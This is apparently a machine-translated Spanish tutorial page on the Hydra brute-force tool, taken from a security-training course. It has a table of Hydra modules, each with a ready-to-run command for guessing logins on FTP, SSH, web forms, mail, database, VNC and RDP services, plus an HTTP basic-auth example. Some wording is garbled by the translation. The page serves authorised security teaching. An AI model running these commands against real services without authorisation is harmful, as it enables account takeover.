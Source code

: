 ### Servicios de Hydra

Los servicios de Hydra esencialmente definen los protocolos o servicios específicos a los que Hydra puede apuntar. Permiten a Hydra interactuar con diferentes mecanismos de autenticación utilizados por varios sistemas, aplicaciones y servicios de red. Cada módulo está diseñado para comprender los patrones de comunicación de un protocolo particular y los requisitos de autenticación, lo que permite a Hydra enviar solicitudes de inicio de sesión apropiadas e interpretar las respuestas. A continuación se muestra una tabla de servicios de uso común:

|Servicio Hydra|Servicio/protocolo|Descripción|Comando de ejemplo|
|---|---|---|---|
|ftp|Protocolo de transferencia de archivos (FTP)|Se utiliza para las credenciales de inicio de sesión de fuerza bruta para los servicios FTP, comúnmente utilizado para transferir archivos a través de una red.|`hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`|
|ssh|SEGURO SHELL (SSH)|Se dirige a los servicios SSH a credenciales de fuerza bruta, comúnmente utilizada para el inicio de sesión remoto seguro a los sistemas.|`hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`|
|http-get/post|Servicios web HTTP|Se utiliza para las credenciales de inicio de sesión de fuerza bruta para formularios de inicio de sesión web HTTP utilizando solicitudes de obtención o publicación.|`hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`|
|smtp|Protocolo de transferencia de correo simple|Ataca los servidores de correo electrónico por credenciales de inicio de sesión de forcedura bruta para SMTP, comúnmente usado para enviar correos electrónicos.|`hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`|
|pop3|Protocolo de correos (POP3)|Se dirige a los servicios de recuperación de correo electrónico a las credenciales de fuerza bruta para el inicio de sesión de POP3.|`hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`|
|IMAP|Protocolo de acceso a mensajes de Internet|Se utiliza para las credenciales de fuerza bruta para los servicios IMAP, que permiten a los usuarios acceder a su correo electrónico de forma remota.|`hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`|
|mysql|Base de datos mysql|Intentos de credenciales de inicio de sesión de fuerza bruta para bases de datos MySQL.|`hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`|
|MSSQL|Microsoft SQL Server|Se dirige a los servidores Microsoft SQL a las credenciales de inicio de sesión de la base de datos Brute-Force.|`hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`|
|VNC|Computación de red virtual (VNC)|Servicios de VNC de Forces Brute, utilizados para acceso remoto de escritorio.|`hydra -P /path/to/password_list.txt vnc://192.168.1.100`|
|RDP|Protocolo de escritorio remoto (RDP)|Se dirige a los servicios de Microsoft RDP para la falsificación bruta de inicio de sesión remota.|`hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`|

### Autenticación HTTP de forcedura de bruto

Imagine que tiene la tarea de probar la seguridad de un sitio web utilizando la autenticación HTTP básica en`www.example.com`. Tiene una lista de nombres de usuario potenciales almacenados en`usernames.txt`y contraseñas correspondientes en`passwords.txt`. Para lanzar un ataque de fuerza bruta contra este servicio HTTP, use el siguiente comando HYDRA:

  Hidra

```shell-session
xnoxos@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

Este comando instruye a Hydra a:

- Use la lista de nombres de usuario del`usernames.txt`archivo.
- Use la lista de contraseñas del`passwords.txt`archivo.
- Apuntar al sitio web`www.example.com`.
- Emplear el`http-get`Módulo para probar la autenticación HTTP.

Hydra intentará sistemáticamente cada combinación de nombre de usuario de nombre de usuario contra el sitio web de destino para descubrir un inicio de sesión válido.

### Dirigido a múltiples servidores SSH
